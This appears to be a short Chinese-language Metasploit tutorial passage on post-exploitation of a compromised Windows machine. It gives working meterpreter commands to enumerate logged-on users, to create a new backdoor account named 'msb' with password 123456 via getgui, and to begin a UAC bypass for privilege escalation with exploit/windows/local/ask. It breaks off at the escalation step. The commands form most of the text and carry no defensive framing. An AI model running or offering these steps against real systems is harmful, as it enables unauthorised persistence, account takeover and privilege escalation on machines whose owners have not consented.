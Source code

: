 一、环境准备

1 MSF-Metasploit Framework

2 一台获取到meterpreter的靶机

二、实际操作

1、先看下目标靶机已存在用户  meterpreter中输入：

`run post/windows/gather/enum_logged_on_users`

![1643108073546](https://image.201068.xyz/assets/1643108073546.png) 

2、使用getgui创建 一个用户名为 msb  密码为 123456  的账户

`run getgui -u msb -p 123456`

run getgui -u {用户名}-p {密码}

进入win的运行输入`netplwiz` 可以查看账户创建情况

![1643108092979](https://image.201068.xyz/assets/1643108092979.png)

[-] Insufficient privileges, account was not be created. 看到这个提示就需要先提权（获取到system）

2.1 绕过UAC提权

`use exploit/windows/local/ask`